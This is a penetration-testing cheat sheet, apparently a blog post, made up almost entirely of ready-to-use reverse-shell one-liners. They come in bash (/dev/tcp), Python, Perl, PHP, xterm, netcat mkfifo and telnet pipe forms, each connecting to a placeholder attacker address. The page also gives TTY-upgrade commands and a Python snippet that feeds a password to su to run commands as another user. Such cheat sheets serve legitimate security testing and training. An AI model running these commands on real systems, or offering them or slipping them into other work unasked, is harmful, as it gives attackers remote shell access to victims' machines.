 ```yaml
---
title: Reverse Shell Cheatsheet
date: 2024-1-1 
categories: [Notes, Pentest]
tags: [reverse shell,xterm,bash,python,php,netcat,perl,interactive,tty,shell]
comments: false
---
```


# Gaining Access

## Reverse Shell One-Liners

> Bash

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-address>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Perl

```bash
perl -e 'use Socket;$i="<IP-address>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> PHP

```bash
php -r '$sock=fsockopen("<IP-address>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> XTerm

```bash
xterm -display <IP-address>:1
```

> Netcat without -e #1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP-address> 1234 > /tmp/f
```

> Netcat without -e #2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
```

```bash
telnet localhost 443 | /bin/sh | telnet localhost 444
```

## Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
```

> Execute one command with `su` as another user if you do not have access to the shell. Credit to g0blin.co.uk & Mantvydas Baranauskas

```bash
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```
